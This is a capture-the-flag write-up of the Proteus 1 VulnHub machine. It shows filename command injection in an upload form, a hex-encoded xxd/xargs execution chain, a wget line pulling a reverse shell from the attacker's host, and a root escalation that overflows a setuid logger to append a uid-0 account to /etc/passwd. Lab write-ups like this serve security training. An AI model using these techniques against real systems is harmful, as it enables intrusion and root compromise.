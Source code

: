 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification, I use nmap.  

`nmap 192.168.2.0/24 -sP Starting Nmap 7.70 ( https://nmap.org )  `  
`Nmap scan report for Proteus (192.168.2.180)Host is up (0.23s latency).`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

> PORT     STATE SERVICE REASON         VERSION  
> 22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:   
> |   2048 40:3e:c5:6f:dc:63:c5:af:43:51:28:5c:05:f5:98:c2 (RSA)  
> | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwD5BkuUf9zDQ1+TkrK0K9VffoH9cCm9OPa215nFtfOejQkf7k3ppxkKqZxlbsOZje5pp9y5gv4EMeAatn1BL2KbMlT96UW0tcFyC8uRJdFITpd1LnzusucVvpP5qa29gyNVJrx/scsdE9bIwB++toL4kSbX40kbUA4u+26qqKXyPaaO7SMo0VxM+7E4l5ZXIV9kfVo6SYcCTHo/WG48iSrbe1UGQg3VR0xxtU9OZg/oiS7BHvqracFTn71Obp+KaN6KA8R3NKQcxA+FSlr1jOVmr3q1b6++RAij4jajwafC1iu0tcy9WkhTrXBLbtmPJ2WI4/8cKO4zhuW0Z2eieD  
> |   256 bb:9c:b0:3c:ff:48:8a:2b:37:d2:fe:2e:78:ce:8c:a9 (ECDSA)  
> | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFLxp5pS3QOLUV+Mfsyeak4GLeciDrUVshZbJEzKKGu/IPOxzNzkVna0IcfGCyRfzfJp1/R6I3k4CdKj6wD2Xo4=  
> |   256 ff:85:4e:91:29:da:d1:1b:b3:11:26:5b:d8:c0:7a:f8 (EdDSA)  
> |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDA1x1iCaJYag2vwfBSvDU1ffJ+WtKs4kWCJe/mLxBFm  
> 80/tcp   open  http    syn-ack ttl 64 Apache httpd  
> | http-methods:   
> |_  Supported Methods: GET HEAD  
> |_http-server-header: Apache  
> |_http-title: Proteus | v 1.0  
> 5355/tcp open  llmnr?  syn-ack ttl 1  

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. 

![Proteus_home](/imgs/proteus_homepage.png)

First notes are that there is a file upload, which is always fun to play with, and a login. 
Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something 
that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to 
the /samples page. 

![Proteus_successful_upload](imgs/default_sucessful_upload.png)

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. I can also 
see under objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. 

![Burp_submit_request](https://github.com/jlreiter/Proteus1/blob/master/imgs/burp_submit_request.png)

I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the 
filename parameter. filename="file.bin;id" works when you reload your webpage. 

![Id_cmd_inj_test](https://github.com/jlreiter/Proteus1/blob/master/imgs/id_cmd_inj_test.png)

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a 
random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we 
can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails 
obviously when testing. 

**Good chars**

![good_chars](https://github.com/jlreiter/Proteus1/blob/master/imgs/good_chars.png)

**Bad chars**

![bad_chars](https://github.com/jlreiter/Proteus1/blob/master/imgs/bad_chars.png)

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port 
with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to 
pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the 
execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). 
I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, 
but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad 
I had a version (4.7.0) that still had it. 

## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my work and possibly handle other use 
cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 
'cat /etc/passwd'

![etc_passwd_cmd_injection](https://github.com/jlreiter/Proteus1/blob/master/imgs/etc_passwd_cmd_injection.png)

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it 
somewhere else. wget supports this with -O. `wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was 
successful, or you can 'ls' the /tmp directory. 

![already_exec_shell](https://github.com/jlreiter/Proteus1/blob/master/imgs/already_executable_shell.png)

So now all I have to do is throw up a listner and execute the shell.

![connect](https://github.com/jlreiter/Proteus1/blob/master/imgs/successful_rshell_connect.png)

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that 
can be used for the web page. There is even a RSA private key (password protected) (see some stuff in /imgs/interesting_snip\*). Keep 
exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? 
The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 

![logger_test](https://github.com/jlreiter/Proteus1/blob/master/imgs/logger_test_input.png)

Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interesting 
effects. 

![overflow](https://github.com/jlreiter/Proteus1/blob/master/imgs/logger_overflow.png)

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as 
root with a certain space for a payload. A few things to note about the overflow: 
 - it starts user input with a new line
 - the user input is appended to the end of the file
 - the user has limited space for the payload
 - the user has limited space in the file name for the path and file
 - the pattern offset is 456 based on the name of the file created when I hit the first overflow 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work.  
`def pad(len):`  
`    pad="A"*len`  
`    return pad`  
  
`def gen():`  
`    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite`  
`    print payload`  

I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that 
the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is 
add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. 

Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the : shell : 
section of /etc/passwd and the machine didn't know what to give me. 

![almost_final_payload](https://github.com/jlreiter/Proteus1/blob/master/imgs/almost_final_userInput_payload.png)

![failed_login](https://github.com/jlreiter/Proteus1/blob/master/imgs/failed_proteus_login_root.png)
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`

![fina_payload](https://github.com/jlreiter/Proteus1/blob/master/imgs/final_userInput_payload.png)
 
Now to su <username>, type the password, and pop to a root shell.
 
![proteus_root](https://github.com/jlreiter/Proteus1/blob/master/imgs/successful_proteus_login_root.png)
 
Now you can find the flag and display it. 
 
![flag](https://github.com/jlreiter/Proteus1/blob/master/imgs/flag.png)
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. 
The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute 
rights (see nice_proteus_exec_help\* in imgs). 
Crafting the original injection is probably the hardest part. Now onto the next one.
